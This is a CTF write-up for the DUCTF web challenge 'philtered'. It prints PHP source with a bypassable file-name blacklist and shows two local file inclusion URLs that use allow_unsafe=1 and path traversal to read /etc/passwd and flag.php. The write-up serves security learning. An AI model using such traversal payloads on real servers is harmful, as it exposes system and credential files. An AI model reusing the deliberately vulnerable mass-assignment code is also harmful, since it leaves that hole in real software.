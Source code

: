 # 🏷️ philtered

**Category:** Web  
**Description:**  
> Can you phigure this one out?

---

## 📦 Challenge Files
We are given a `src.zip` containing some PHP files.  
The most important files are:

**flag.php**
```php
<?php $flag = 'DUCTF{TEST_FLAG}'; ?>
```
**index.php**
```php
<?php

class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}

// Such elegance
$loader = new FileLoader(); 
$loader->assign_props($_GET);

require_once __DIR__ . '/layout.php';

$content = <<<HTML
<nav style="margin-bottom:2em;">
    <a href="index.php">Home</a> |
    <a href="aboutus.php">About Us</a> |
    <a href="contact.php">Contact</a> |
    <a href="gallery.php">Gallery</a>
</nav>
<h2>Welcome to Philtered</h2>
HTML;

$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>About Us</h3>";
$loader->config->path = 'aboutus.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= "<h3>Our Values</h3>";
$loader->config->path = 'our-values.txt';
$content .= "<p>" . $loader->load() . "</p>";

$content .= <<<HTML
<h3>Contact</h3>
<ul>
    <li>Email: info</li>
    <li>Please don't talk to us, we don't like it</li>
</ul>
HTML;

render_layout('Philtered - Home', $content);
?>
```

We can see here that we have lfi with some filters 

```php
class Config {
    public $path = 'information.txt';
    public $data_folder = 'data/';
}

class FileLoader {
    public $config;
    // idk if we would need to load files from other directories or nested directories, but better to keep it flexible if I change my mind later
    public $allow_unsafe = false;
    // These terms will be philtered out to prevent unsafe file access
    public $blacklist = ['php', 'filter', 'flag', '..', 'etc', '/', '\\'];
    
    public function __construct() {
        $this->config = new Config();
    }
    
    public function contains_blacklisted_term($value) {
        if (!$this->allow_unsafe) {
            foreach ($this->blacklist as $term) {
                if (stripos($value, $term) !== false) {
                    return true;    
                }
            }
        }
        return false;
    }

    public function assign_props($input) {
        foreach ($input as $key => $value) {
            if (is_array($value) && isset($this->$key)) {
                foreach ($value as $subKey => $subValue) {
                    if (property_exists($this->$key, $subKey)) {
                        if ($this->contains_blacklisted_term($subValue)) {
                            $subValue = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                        }
                        $this->$key->$subKey = $subValue;
                    }
                }
            } else if (property_exists($this, $key)) {
                if ($this->contains_blacklisted_term($value)) {
                    $value = 'philtered.txt'; // Default to a safe file if blacklisted term is found
                }
                $this->$key = $value;
            }
        }
    }

    public function load() {
        return file_get_contents($this->config->data_folder . $this->config->path);
    }
}
```
To get a working lfi we can do this `/index.php?allow_unsafe=1&config[path]=../../../../../../../etc/passwd`

this will make allow_unsafe set to true -> `public $allow_unsafe = false;` to disable the blacklist


<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/1.PNG?raw=true'>

also in this way we can control the path, getting the flag `/index.php?allow_unsafe=1&config[path]=../flag.php`

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/2.PNG?raw=true'>



##Solve on remote :


<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/philtered/images/3.PNG?raw=true'>

FLAG : ``DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}``
